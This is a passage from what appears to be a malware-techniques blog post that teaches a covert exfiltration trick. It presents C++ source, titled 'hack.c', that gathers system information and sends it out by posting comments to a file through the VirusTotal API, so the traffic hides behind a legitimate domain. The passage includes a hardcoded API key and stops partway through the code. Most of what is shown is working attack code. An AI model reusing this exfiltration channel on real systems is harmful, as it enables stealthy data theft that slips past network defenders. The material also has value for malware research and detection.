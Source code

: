 ```cpp
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

As you can see, this is just post request, in my case file ID = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa`.     

So the full source code is looks like this:    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v3/files/" FILE_ID "/comments", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
```